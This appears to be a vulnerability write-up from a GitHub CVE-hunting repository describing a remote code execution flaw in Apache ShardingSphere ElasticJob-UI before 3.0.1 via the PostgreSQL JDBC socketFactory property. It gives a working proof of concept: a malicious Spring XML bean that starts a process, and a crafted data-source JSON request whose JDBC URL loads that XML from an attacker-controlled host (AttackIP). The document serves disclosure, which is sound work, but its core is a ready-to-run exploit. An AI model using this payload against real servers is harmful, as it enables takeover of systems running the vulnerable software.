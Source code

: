 # Apache ShardingSphere ElasticJob-UI  < 3.0.1 postgresql RCE

Apache ShardingSphere ElasticJob-UI Due to the wide range of impact of the vulnerability, the vulnerability is serious enough to cause direct access to the control privileges of the server where the application system is located.

Affected versions of this package are vulnerable to Remote Code Execution (RCE) when using certain plugin features. pgjdbc instantiates plugin instances based on class names provided via authenticationPluginClassName, sslhostnameverifier, socketFactory, sslfactory, and sslpasswordcallback connection properties.

Supplier：https://github.com/apache/shardingsphere-elasticjob-ui


Vulnerability Exploitation Chain

```
EventTraceDataSourceConfigurationServiceImpl#add
DataSourceFactory#createDataSource
EventTraceDataSourceConfiguration#init
DriverManager#getConnection
```

Driver` version is 42.2. and the framework used by `Apache ShardingSphere ElasticJob-UI` is `Springboot`.
In the case of specifying `JDBC URL`, malicious XML files can be loaded using `org.springframework.context.support.ClassPathXmlApplicationContext` leading to RCE exploitation.

### POC

Start an HTTP service and place an XML file with the following contents

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder">
        <constructor-arg value="calc.exe" />
        <property name="whatever" value="#{ pb.start() }"/>
    </bean>
</beans>
```

Then log in to the Apache ShardingSphere ElasticJob-UI backend, select Add `data source`, and replace the requested JSON with the following

```json
{"name":"test","driver":"org.postgresql.Driver","url":"jdbc:postgresql://localhost:5432/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://AttackIP/poc.xml","username":"test","password":"test"}
```

Use the following screenshots

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-04/1.png)